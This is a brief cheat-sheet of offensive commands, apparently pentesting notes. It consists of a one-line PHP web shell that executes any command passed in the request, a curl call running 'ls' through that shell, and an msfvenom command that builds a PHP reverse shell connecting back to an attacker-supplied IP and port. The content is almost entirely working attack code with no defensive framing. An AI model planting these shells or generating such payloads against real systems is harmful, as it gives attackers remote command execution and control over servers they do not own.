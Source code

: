 # Writing Custom Web Shell

```php
<?php system($_REQUEST['cmd']); ?>
```

```bash
curl http://example.com/webshell.php?cmd=ls
```

# Generating Custom Reverse Shell Script
```bash
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```